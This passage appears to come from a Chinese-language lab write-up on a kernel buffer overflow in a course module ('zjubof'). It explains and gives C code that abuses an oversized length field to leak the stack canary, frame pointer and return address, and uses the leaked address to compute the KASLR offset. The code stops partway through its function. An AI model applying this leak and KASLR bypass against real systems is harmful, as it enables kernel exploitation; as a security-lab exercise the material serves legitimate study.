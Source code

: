 `buf[49] = "0123456789ABCDEF\x30"`，49 = 48 + 1,48为需要泄露的字节数，1为buf末尾的`\0`

3. 进而我们可以泄露`canary/lr/oldfp`，由于`lr(ra)`保存的是`zjubof_write2`中调用`zjubof_write3`之后的返回地址，反汇编`zjubof_write2`得到无偏移的RA，再与开启KASLR的`lr(ra)`相减即可得到偏移

![image 3](image-20230529212840416.png)

关键代码如下:

```c
const size_t RAWithoutKASLR = 0xffff800010de7d0c;

char canaryStr[8]; // canary
char oldFPStr[8]; // fp of zjubof_write2 
char oldRAStr[8]; // ra of zjubof_write3 -> zjubof_write2

size_t getOffset(int fd) {
    size_t len = 0; 

    char buf[49] = "0123456789ABCDEF\x30"; // cmd.command = "0123456789ABCDEF", cmd.length = 0x30

    len = write(fd, buf, 24); // // 16 + 8 B
    len = read(fd, buf, 48); // CMD_LENGTH = 49, len < 49
    
    memset(canaryStr, '\0', sizeof(canaryStr));
    memcpy(canaryStr, buf+24, 8);
    
    memset(oldFPStr, '\0', sizeof(oldFPStr));
    memcpy(oldFPStr, buf+32, 8);

    memset(oldRAStr, '\0', sizeof(oldRAStr));
    memcpy(oldRAStr, buf+40, 8);

    size_t canary = *(size_t *) canaryStr;
    size_t oldFP = *(size_t *) oldFPStr;
    size_t oldRA = *(size_t *) oldRAStr;

    size_t offset = oldRA - RAWithoutKASLR;
    
    return offset;
```